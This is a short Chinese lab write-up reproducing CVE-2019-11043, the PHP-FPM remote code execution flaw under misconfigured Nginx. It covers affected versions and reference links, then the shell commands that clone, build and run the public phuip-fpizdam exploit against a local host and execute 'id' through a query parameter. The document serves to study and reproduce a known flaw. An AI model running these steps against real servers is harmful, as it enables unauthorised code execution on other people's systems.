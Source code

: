 # CVE-2019-11043

**利用条件：**nginx配置了fastcgi_split_path_info

**受影响系统：**PHP 5.6-7.x，Nginx>=0.7.31

在长亭科技举办的 Real World CTF 中，国外安全研究员 Andrew Danau 在解决一道 CTF 题目时发现，向目标服务器 URL 发送 %0a 符号时，服务返回异常，疑似存在漏洞。

在使用一些有错误的Nginx配置的情况下，通过恶意构造的数据包，即可让PHP-FPM执行任意代码。

参考链接：

- https://bugs.php.net/bug.php?id=78599
- https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/
- https://github.com/neex/phuip-fpizdam

```shell
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
go get -v && go build
```

在当前文件下运行：

```shell
go run . "http://127.0.0.1:8080/index.php"
```

![image-20211122230315686](https://test-pic-test.oss-cn-guangzhou.aliyuncs.com/img/image-20211122230315686.png)

访问链接`http://192.168.47.128:8080/?a=id`


![image-20211122230236364](https://test-pic-test.oss-cn-guangzhou.aliyuncs.com/img/image-20211122230236364.png)

> 注意，因为php-fpm会启动多个子进程，在访问`/index.php?a=id`时需要多访问几次，以访问到被污染的进程。